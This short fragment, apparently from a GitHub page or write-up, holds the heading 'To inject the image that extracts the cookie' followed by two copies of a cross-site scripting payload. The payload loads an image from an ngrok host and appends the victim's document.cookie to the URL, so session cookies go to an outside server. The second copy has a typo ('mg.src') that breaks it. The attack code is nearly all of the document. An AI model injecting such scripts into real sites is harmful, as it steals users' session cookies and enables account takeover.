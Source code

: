 ### To inject the image that extracts the cookie

<script>var img = new Image();img.src="https://d65c3bd8b730.ngrok.app/hamster.jpg?cookie="+encodeURIComponent(document.cookie);document.body.appendChild(img);</script>

<script>
    var img = new Image();
    mg.src="https://d65c3bd8b730.ngrok.app/hamster.jpg?cookie="+encodeURIComponent(document.cookie);
    document.body.appendChild(img);
</script>
